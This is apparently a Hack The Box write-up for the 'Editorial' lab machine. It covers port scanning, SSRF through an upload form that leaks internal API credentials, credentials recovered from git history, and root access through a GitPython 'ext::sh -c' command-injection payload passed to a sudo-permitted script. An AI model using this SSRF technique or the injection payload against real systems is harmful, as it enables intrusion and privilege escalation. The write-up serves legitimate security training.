

**Start 09:45 28-07-2024**

---

## Nmap recon

First of all I did a thorough `nmap` scan of the system and it seems that only 2 ports were open, namely `22/ssh`  and `80/http`. 


## 80/TCP - HTTP

#### /etc/hosts
After finding out that the system has a web page running on port `80`, we add it to our `/etc/hosts` file under `editorial.htb`. I then visited the site and came across a book publishing site. Right away the `editorial.htb/upload` page seems interesting to us. 


It seems we could use this page to upload malicious files in order to get a reverse shell.

### Page source
After checking the page source we find the following JS script:

```JavaScript
<script>
	  document.getElementById('button-cover').addEventListener('click', 
	  function(e) {
		e.preventDefault();
		var formData = new FormData(document.getElementById('form-cover'));
		var xhr = new XMLHttpRequest();
		xhr.open('POST', '/upload-cover');
		xhr.onload = function() {
		  if (xhr.status === 200) {
			var imgUrl = xhr.responseText;
			console.log(imgUrl);
			document.getElementById('bookcover').src = imgUrl;
			document.getElementById('bookfile').value = '';
			document.getElementById('bookurl').value = '';
		  }
		};
		xhr.send(formData);
	  });
</script>
```

Whether this is useful to us right now, we will probably find out later on.

### BurpSuite

Looking at the form we can try to send a malicious upload using `BurpSuite`.
This could possibly make the form susceptible to [SSRF](https://portswigger.net/web-security/ssrf) attacks. 

In order to utilize this we need to open up `BurpSuite` and try to send a preview of a random picture.


After clicking the preview button we see the following response in `Burp` 


We can send this `POST` request to `Repeater` in order to analyse the request further.


Here we see the `POST` request in raw format and the response that we get after sending it.


After getting the response from `Repeater`, we can use the response in the 8th row as a `GET` request to find out more. After forwarding the `GET` request the following message pops up:


We see ==login credentials== mentioned which will for sure be useful to us. 
```
U: dev
PW: dev080217_devAPI!@
```

We can then try and login into `22/SSH` using these credentials.


Logged in successfully as `dev`.

## 22/TCP - SSH
### user.txt
After we've logged into `ssh` using the default credentials we should now try to get the user flag first.



Fairly simple stuff.

## Privilege Escalation
Unfortunately we cannot check `sudo` privileges


Instead I've found a few files inside the `apps` directory in the `/home` directory:


Here we see a whole `.git` folder including `commits`, `logs` etc. Let's check these folders and see if there's anything interesting for us.
Inside the `logs` folder we find the `HEAD` file containing all the commit messages:


Here I found a commit containing a message mentioning `commit: change(api): downgrading prod to dev`. The particular commit is under 

	1e84a036b2f33c59e2390730699a488c65643d28

we can check the commit using `git show COMMIT`

``` bash
dev@editorial:~/apps/.git/logs$ git show 1e84a036b2f33c59e2390730699a488c65643d28
commit 1e84a036b2f33c59e2390730699a488c65643d28 (HEAD)
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:51:10 2023 -0500

    feat: create api to editorial info
    
    * It (will) contains internal info about the editorial, this enable
       faster access to information.

diff --git a/app_api/app.py b/app_api/app.py
new file mode 100644
index 0000000..61b786f
--- /dev/null
+++ b/app_api/app.py
@@ -0,0 +1,74 @@
+# API (in development).
+# * To retrieve info about editorial
+
+import json
+from flask import Flask, jsonify
+
+# -------------------------------
+# App configuration
+# -------------------------------
+app = Flask(__name__)
+
+# -------------------------------
+# Global Variables
+# -------------------------------
+api_route = "/api/latest/metadata"
+api_editorial_name = "Editorial Tiempo Arriba"
+api_editorial_email = "info@tiempoarriba.htb"
+
+# -------------------------------
+# API routes
+# -------------------------------
+# -- : home
+@app.route('/api', methods=['GET'])
+def index():
+    data_editorial = {
+        'version': [{
+            '1': {
+                'editorial': 'Editorial El Tiempo Por Arriba', 
+                'contact_email_1': 'soporte@tiempoarriba.oc',
+                'contact_email_2': 'info@tiempoarriba.oc',
+                'api_route': '/api/v1/metadata/'
+            }},
+            {
+            '1.1': {
+                'editorial': 'Ed Tiempo Arriba', 
+                'contact_email_1': 'soporte@tiempoarriba.oc',
+                'contact_email_2': 'info@tiempoarriba.oc',
+                'api_route': '/api/v1.1/metadata/'
+            }},
+            {
+            '1.2': {
+                'editorial': api_editorial_name, 
+                'contact_email_1': 'soporte@tiempoarriba.oc',
+                'contact_email_2': 'info@tiempoarriba.oc',
+                'api_route': f'/api/v1.2/metadata/'
+            }},
+            {
+            '2': {
+                'editorial': api_editorial_name, 
+                'contact_email': 'info@tiempoarriba.moc.oc',
+                'api_route': f'/api/v2/metadata/'
+            }},
+            {
+            '2.3': {
+                'editorial': api_editorial_name, 
+                'contact_email': api_editorial_email,
+                'api_route': f'{api_route}/'
+            }
+        }]
+    }
+    return jsonify(data_editorial)
+
+# -- : (development) mail message to new authors
+@app.route(api_route + '/authors/message', methods=['GET'])
+def api_mail_new_authors():
+    return jsonify({
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
+    }) # TODO: replace dev credentials when checks pass
+
+# -------------------------------
+# Start program
+# -------------------------------
+if __name__ == '__main__':
+    app.run(host='127.0.0.1', port=5001, debug=True)
(END)

```

And just like that we found the login credentials for the `prod` user.

```
Username: prod
Password: 080217_Producti0n_2023!@
```

Using `su prod` we can change to this user


This user also has `sudo` privileges for some files apparently:


Using an existing [CVE](https://github.com/gitpython-developers/GitPython/issues/1515?source=post_page-----0fba80ca64e8--------------------------------) we can utilize the following command:

``` shell
<gitpython::clone> 'ext::sh -c touch% /tmp/pwned'
```

We just need to modify it slightly for our use case. Since we can run the following commands under `sudo`: 
`/usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py`

we just need to change it to:
`sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c cat% /root/root.txt% >% /home/prod/root.txt"`


### root.txt

Just like that we've got the `root` flag.

Root.txt:
`c7161454043b2af9126cb4467daa34f0`


---

**Finished 21:12 28-07-2024**

[^Links]: [[Hack The Box]]
